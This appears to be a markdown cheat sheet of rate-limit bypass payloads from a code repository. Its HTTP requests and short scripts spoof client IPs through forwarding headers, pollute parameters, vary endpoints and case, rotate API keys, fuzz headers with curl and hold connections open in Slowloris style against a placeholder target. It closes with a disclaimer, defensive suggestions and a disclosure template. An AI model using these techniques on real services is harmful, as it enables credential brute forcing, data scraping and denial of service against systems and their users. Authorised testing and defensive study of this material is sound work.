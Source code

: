 # Rate Limit Bypass Testing Payloads

**Disclaimer**: This document is for educational purposes only. Only test systems you own or have explicit permission to test. Unauthorized testing may violate laws and terms of service.

## Common Rate Limit Bypass Techniques

### 1. IP Rotation Payload

```http
GET /api/v1/sensitive/data HTTP/1.1
Host: target.com
X-Forwarded-For: 1.2.3.4, 5.6.7.8, 9.10.11.12
CF-Connecting-IP: 13.14.15.16
True-Client-IP: 17.18.19.20
```

### 2. Header Manipulation

```http
POST /api/login HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
X-Request-ID: 7b8e4f5a-6d3c-4b9e-8a7d-1f2e3c4d5e6f
X-Client-Version: 1.0.3
X-Device-ID: 550e8400-e29b-41d4-a716-446655440000
```

### 3. Parameter Pollution

```
GET /api/data?user=test&user=admin&account=123&account=456 HTTP/1.1
Host: target.com
```

### 4. Endpoint Variation

```
GET /api/v1/data/
GET /api/v1/data
GET /api/v1/data//
GET /api/v1/data/?
GET /api/v1/data/?param=value
```

## Advanced Bypass Techniques

### 5. HTTP/2 Multiplexing

```http
:method: GET
:path: /api/user/data
:authority: target.com
:scheme: https
user-agent: Mozilla/5.0
accept: */*
cookie: session=abc123
```

### 6. Slowloris-style Request

```python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("target.com", 80))
s.send(b"POST /api/login HTTP/1.1\r\nHost: target.com\r\n")
while True:
    s.send(b"X-a: b\r\n")  # Send headers slowly
    time.sleep(10)
```

### 7. Case Variation

```
GET /API/User/Data
GET /Api/User/data
GET /api/user/DATA
```

## API Key Rotation

```python
import requests

api_keys = ["key1", "key2", "key3", "key4"]
url = "https://api.target.com/v1/data"

for i in range(100):
    headers = {"Authorization": f"Bearer {api_keys[i % len(api_keys)]}"}
    requests.get(url, headers=headers)
```

## Rate Limit Testing Methodology

1. **Baseline Establishment**
   ```bash
   curl -I -X GET https://api.target.com/endpoint
   ```

2. **Header Fuzzing**
   ```bash
   for header in "X-Forwarded-For" "CF-Connecting-IP" "True-Client-IP"; do
     curl -H "$header: 1.2.3.4" https://api.target.com/endpoint
   done
   ```

3. **Response Analysis**
   - HTTP 429 (Too Many Requests)
   - Retry-After headers
   - Custom rate limit headers

## Defensive Mechanisms

Legitimate systems should implement:
- Strict IP validation
- Request fingerprinting
- Token bucket algorithm
- Secondary verification challenges
- Behavioral analysis

## Ethical Considerations

1. Always obtain permission before testing
2. Document all tests thoroughly
3. Immediately report findings to system owners
4. Never use these techniques maliciously
5. Respect all `Retry-After` headers

## Responsible Disclosure Template

```markdown
# Rate Limit Vulnerability Report

**Endpoint**: `/api/v1/sensitive/data`
**Impact**: Potential data scraping/brute force vulnerability
**Reproduction Steps**:
1. Rotate X-Forwarded-For headers
2. Make 500+ requests/minute
3. Observe no rate limiting

**Suggested Fixes**:
- Implement strict IP validation
- Add request fingerprinting
- Add secondary CAPTCHA challenges
```